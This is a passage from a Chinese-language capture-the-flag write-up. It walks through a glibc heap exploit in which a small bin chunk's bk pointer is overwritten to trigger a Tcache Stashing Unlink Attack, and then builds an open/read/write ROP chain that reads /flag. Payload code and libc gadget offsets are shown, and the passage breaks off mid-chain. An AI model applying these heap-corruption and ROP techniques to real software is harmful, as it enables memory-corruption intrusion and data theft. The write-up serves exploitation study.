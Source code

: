 	dbg()
![在这里插入图片描述](https://img-blog.csdnimg.cn/b555f84d5da64f6d800060cc087cc9f6.png)

并借此我们找到size大小为0x1010的就是first_chunk，借此我们算出刚刚泄露出的heap+ 0x250+0x10+0x800-0x10就是first_chunk+0x800的地址，small bin chunk2的fd指针指向small bin chunk1不变，所以我们还要算出small bin chunk1距离heap的距离0x37e0

## 修改small bin chunk的bk指针为first_chunk+0x800


	payload='\x00'*0x300+p64(0)+p64(0x101)+p64(heap_addr+0x37E0)+p64(heap_addr+0x250+0x10+0x800-0x10)
	edit(2,payload)
	dbg()
![在这里插入图片描述](https://img-blog.csdnimg.cn/0812f3a1c86243a681acb859b56aebbb.png)
再次申请0x100大小的chunk，程序仅会检查Chunk2的fd指针是否指向Chunk1，在取出Chunk1后，因为0x100的Tcache Bin还有1个空位，程序会遍历发现Chunk2满足大小条件并将其放入Tcache Bin中，我们若此时篡改Chunk2的bk指针指向first_chunk+0x800，触发Tcache Stashing Unlink Attack将main_arena+336写入first_chunk+0x800，满足first_chunk+0x800大于0x7F0000000000.

![在这里插入图片描述](https://img-blog.csdnimg.cn/c622ed9425cb4e63a1527f1b98668250.png)
## 构造ORW的ROP链放入堆块中
先获取一些gadget段，	file_name_addr是我们要申请的下一个chunk的mem地址，也就是当前的top chunk的mem地址，距离heap  0x0000000000004A40


	pop_rdi_ret = libc_base + 0x0000000000026542
	pop_rsi_ret = libc_base + 0x0000000000026f9e
	pop_rdx_ret = libc_base + 0x000000000012bda6
	file_name_addr = heap_addr + 0x0000000000004A40 #下一个chunk的mem位置起始位置
	flag_addr = file_name_addr + 0x0000000000000200 #将flag写到file_name_addr + 0x0000000000000200处，防止覆盖掉有用内容
	ROP_chain  = '/flag\x00\x00\x00'

open(file_name_addr,0)

	ROP_chain += p64(pop_rdi_ret)
	ROP_chain += p64(file_name_addr)
	ROP_chain += p64(pop_rsi_ret)
	ROP_chain += p64(0)
	ROP_chain += p64(libc_base+libc.symbols['open'])

read(3,flag_addr,0x40)
Read函数的第一个参数文件描述符从0开始累加，
程序进行时内核会自动打开3个文件描述符，0，1，2，分别对应，标准输入、输出和出错，
这样在程序中，每打开一个文件，文件描述符值从3开始累加。
我们打开了一个file_name_addr文件，文件描述符就变为了3，3就代表了file_name_addr文件
read函数第一个参数是3，就是在这个文件里读取数据。

	ROP_chain += p64(pop_rdi_ret)
	ROP_chain += p64(3)
	ROP_chain += p64(pop_rsi_ret)
	ROP_chain += p64(flag_addr)
	ROP_chain += p64(pop_rdx_ret)
	ROP_chain += p64(0x40)
	ROP_chain += p64(libc_base+libc.symbols['read'])
write(1,flag_addr,0x40)
